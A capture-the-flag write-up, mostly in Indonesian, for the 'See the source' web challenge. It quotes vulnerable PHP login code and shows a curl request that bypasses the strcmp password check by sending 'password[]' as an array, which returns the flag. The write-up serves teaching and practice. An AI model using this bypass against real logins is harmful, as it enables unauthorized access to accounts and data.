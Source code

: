 <h1><b>See the source</h1></b>
<pre>
We were sipping coffee in SDSLabs when I got a mail from a friend of mine. 
He had a small challenge for us. He wanted us to hack into his web page and find the flag. 
That fool even gave us part of the source code for his page. 
It was merely cakewalk for us thereafter. See if you can find the flag.

<a href='http://hack.bckdr.in:16014/'>Here</a> is the link for the webpage and <a href='http://hack.bckdr.in:16014/src.txt'>here</a> is the link of the source.
</pre>
</b><h3>Solution</h3></b>
<p>Pada soal kita diberikan source php</p>

```php
<?php
	include("flag.php");

	$error = 0;

	if(isset($_POST['password']))
	{	$password = $_POST['password'];
		if(strcmp($password, $actual_password)==0)
		{
			echo "You have successfully authenticated!<br>";
			echo "Flag : ".$flag;
			die;
		}
		else
			$error = 1;
	}
?>
```
<p>Pada eksekusi program diatas terdapat fungsi strcmp yaitu pembanding string, dan itu terdapat pada statment password yang kita input dengan password pada database</p>
<p>strcmp itu beroperasi seperti jika kita compare string1 dengan string2 bernilai = 0 maka string tersebut sama, dan bernilai besar dari 0 jika berbeda</p>
<p>string compare dapat dibypass dengan menambah buka dan tutup kurung siku pada variabel name, seperti eksekusi dengan curl dibawah ini</p>

```console
root@Python:/home/venom/Downloads# curl --data "password[]=bypass" http://hack.bckdr.in:16014/
You have successfully authenticated!<br>Flag : b0a524a10572548e34b025471a023b4aea220f7b202f422f7b5d5c68592c8faa
root@Python:/home/venom/Downloads# 


</b><h3>Flag</h3></b>
<pre>
b0a524a10572548e34b025471a023b4aea220f7b202f422f7b5d5c68592c8faa
</pre>
